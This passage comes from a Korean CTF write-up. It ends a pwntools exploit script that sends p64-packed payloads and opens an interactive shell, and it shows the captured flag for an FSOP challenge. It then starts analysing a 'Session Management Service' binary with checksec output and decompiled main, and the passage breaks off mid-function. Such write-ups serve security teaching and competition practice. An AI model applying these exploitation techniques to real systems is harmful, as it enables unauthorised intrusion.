 ```python
payload = p64(4)
payload += p64(1)
payload = payload.ljust(0x40, b"\x00")

p.send(payload) 
sleep(0.01) 

#17
payload = p64(3)
payload += p64(0)
payload = payload.ljust(0x40, b"\x00")

p.send(payload) 
sleep(0.01) 
pause()
#18
payload = p64(2)
payload = payload.ljust(0x40, b"\x00")

p.send(payload) 
sleep(0.01) 

p.interactive()
```

### 결과

![image-20250315174520761](C:\Users\김준성\AppData\Roaming\Typora\typora-user-images\image-20250315174520761.png)

> flag : CyKor{d0_y0u_kn0w_FS0P_w31I?}

# Session Management Service

![image-20250315174601641](C:\Users\김준성\AppData\Roaming\Typora\typora-user-images\image-20250315174601641.png)

>CANARY    : **ENABLED**
>FORTIFY   : disabled
>NX        : **ENABLED**
>PIE       : **ENABLED**
>RELRO     : **FULL**

### 분석

##### main

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int i; // [rsp+8h] [rbp-D8h]
  int v5; // [rsp+Ch] [rbp-D4h]
  int v6; // [rsp+10h] [rbp-D0h]
  int index; // [rsp+14h] [rbp-CCh]
  pthread_t newthread; // [rsp+18h] [rbp-C8h] BYREF
  char *s1; // [rsp+20h] [rbp-C0h]
  char *v10; // [rsp+28h] [rbp-B8h]
  char *v11; // [rsp+30h] [rbp-B0h]
  char *nptr; // [rsp+38h] [rbp-A8h]
  char *v13; // [rsp+40h] [rbp-A0h]
  size_t length; // [rsp+48h] [rbp-98h]
  char s[136]; // [rsp+50h] [rbp-90h] BYREF
  unsigned __int64 v16; // [rsp+D8h] [rbp-8h]

  v16 = __readfsqword(0x28u);
```